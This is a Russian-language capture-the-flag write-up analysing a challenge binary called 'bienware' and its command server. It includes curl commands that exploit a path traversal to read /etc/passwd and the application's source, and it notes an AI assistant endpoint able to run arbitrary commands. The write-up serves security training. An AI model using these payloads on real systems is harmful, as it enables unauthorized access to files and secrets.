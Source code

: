 ```bash
objdump -d bienware.elf | grep -A 20 "main>:"
```

**Вызовы главной функции:**
```asm
402844: call   401b56 <try_display_image>
402848: call   401e7e <run_terminal_animation>
```

Алгоритм работы вредоносного ПО:
1. Загружает и отображает гипнотические GIF файлы
2. Запускает анимацию в терминале для отвлечения внимания
3. Использует психологические манипуляции для извлечения данных

## Сетевая разведка

### Обнаружение API
Вредоносное ПО взаимодействует с C&C сервером через REST API. Тестирование обнаруженной конечной точки:

```bash
curl -s "https://hypnovirus-srv5c53c81553e1.alfactf.ru/api/file?path=/app/data/r3rCF8.gif"
```

**Формат ответа:**
```json
{"base64": "R0lGODlhOgJrATAfACH/C05FVFNDQVBFMi4wAwEAAAAh+QQFAwAfACH5BAUDAAAALAAAAAA..."}
```

### Обнаружение Path Traversal
Тестирование на уязвимость обхода директорий:

```bash
curl -s "https://hypnovirus-srv5c53c81553e1.alfactf.ru/api/file?path=../../../etc/passwd"
```

**Успех:** API возвращает содержимое `/etc/passwd` в формате base64, подтверждая уязвимость path traversal.

## Извлечение исходного кода

### Исходный код приложения
Извлечение исходного кода FastAPI приложения:

```bash
curl -s "https://hypnovirus-srv5c53c81553e1.alfactf.ru/api/file?path=../../../app/hypnovirus/app.py" | jq -r .base64 | base64 -d
```

**Ключевые открытия:**
- FastAPI приложение с JWT аутентификацией
- Конечная точка AI Assistant по адресу `/admin/assistant` с возможностями выполнения команд
- Инструмент `execute_command` позволяет выполнение произвольных системных команд
